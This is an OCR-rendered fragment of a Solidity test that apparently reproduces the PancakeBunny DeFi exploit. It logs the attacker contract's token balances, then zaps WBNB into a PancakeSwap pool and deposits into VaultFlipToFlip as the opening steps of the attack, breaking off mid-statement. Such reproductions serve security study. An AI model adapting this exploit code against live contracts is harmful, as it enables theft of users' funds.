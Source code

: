 │             IERC20(WBNB).decimals()                                                                                                                                                                                                                  │
│         );                                                                                                                                                                                                                                           │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                 │
│             "Initial USDT balance of attacker:",                                                                                                                                                                                                     │
│             IERC20(USDT).balanceOf(address(this)),                                                                                                                                                                                                   │
│             IERC20(USDT).decimals()                                                                                                                                                                                                                  │
│         );                                                                                                                                                                                                                                           │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                 │
│             "Initial BUNNY balance of attacker:",                                                                                                                                                                                                    │
│             IERC20(BUNNY).balanceOf(address(this)),                                                                                                                                                                                                  │
│             IERC20(BUNNY).decimals()                                                                                                                                                                                                                 │
│         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         // Deposit a minimum amount of WBNB + USDT to VaultFlipToFlip, transfer LP tokens to WBNB + USDT Pancake pool.                                                                                                                               │
│         emit log_string("Zapping 1 WBNB into WBNB+USDT v2 pool...");                                                                                                                                                                                 │
│                                                                                                                                                                                                                                                      │
│         zap.zapInToken(WBNB, 1e18, address(WBNBUSDTv2));                                                                                                                                                                                             │
│         uint256 lpamount = IERC20(address(WBNBUSDTv2)).balanceOf(address(this));                                                                                                                                                                     │
│         flip.deposit(lpamount);                                                                                                                                                                                                                      │
│                                                                                                                                                                                                                                                      │
│         emit log_string(                                                                                                                                                                                                                             │